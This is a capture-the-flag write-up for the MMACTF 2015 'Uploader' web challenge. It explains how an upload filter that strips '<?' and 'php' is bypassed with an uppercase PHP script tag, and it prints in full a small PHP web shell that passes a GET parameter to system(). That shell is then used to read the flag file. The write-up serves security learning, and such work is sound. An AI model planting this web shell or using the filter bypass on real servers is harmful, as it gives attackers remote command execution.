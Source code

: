 # Uploader (Web, 100pts)

---

## Problem

This uploader deletes all /<\?|php/. So you cannot run php.

http://recocta.chal.mmactf.link:9080/
http://recocta.chal.mmactf.link:9081/ (Mirror 1)
http://recocta.chal.mmactf.link:9082/ (Mirror 2)
http://recocta.chal.mmactf.link:9083/ (Mirror 3)

You can only upload files whose name is matched by /^[a-zA-Z0-9]+\.[a-zA-Z0-9]+$/.

## Solution

Web page contains only one simple upload form:

https://github.com/bl4de/ctf/blob/master/MMACTF_2015/uploader1.png

Each file is accesible after uploading, so we can try to upload some simple shell to find the flag, which should be placed somewhere on the server.

As we can't use regular PHP script tags, there should be another way to upload PHP shell and execute it.
But we can use _script_ tag with language set to PHP (we are using uppercases here as lower cases are deleted):
	
```html
<form action="" method="get"><textarea name="c" rows="10" cols="80">
	<script language="PHP"> 
		if (isset($_GET['c'])) {echo $_GET['c'];}
	</script>
</textarea><button type="submit">go</button></form><hr /><div><p>Result of <strong>
	<script language="PHP"> 
		if(isset($_GET['c'])){echo $_GET['c'];}
	</script>
</strong></p><pre>

<script language="PHP"> 
	$output="";if (isset($_GET['c'])){$output=@system($_GET['c']);};
</script>
</pre>
</div>	
```

This won't work in the future versions of PHP, as from PHP 7 ASP tags and _script_ tags will be removed.


After uploading the shell, let's take a look around:

https://github.com/bl4de/ctf/blob/master/MMACTF_2015/uploader2.png

We can see file named _flag_ in the root directory of the server.

We can execute _cat flag_ command via the shell and catch the flag:

https://github.com/bl4de/ctf/blob/master/MMACTF_2015/uploader3.png


## Links

http://php.net/manual/en/language.basic-syntax.phptags.php
